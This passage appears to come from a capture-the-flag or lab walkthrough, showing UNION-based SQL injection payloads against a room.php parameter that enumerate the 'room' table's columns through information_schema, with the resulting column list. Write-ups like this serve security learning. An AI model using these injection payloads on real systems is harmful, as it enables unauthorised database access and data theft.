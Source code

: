 `room.php?cod=99%2527 UNION SELECT 1,column_name,3,4,5,6,7 FROM information_schema.columns where table_name like 'room' limit 0,1`

<p class="lang:zsh highlight:0 decode:true">
  <img class="alignnone size-full wp-image-151" src="/assets/img/2019/08/js_sqli_column1.png" />
</p>

`room.php?cod=99%2527 UNION SELECT 1,column_name,3,4,5,6,7 FROM information_schema.columns where table_name like 'room' limit 1,1`

<img class="alignnone size-full wp-image-152" src="/assets/img/2019/08/js_sqli_column2.png" /> 

After going through all of the columns until the page breaks, I ended up with the following:

> #### Room
> 
> 1- cod  
> 2- name  
> 3- price  
> 4- descrip  
> 5- star  
> 6- image  
> 7- mini
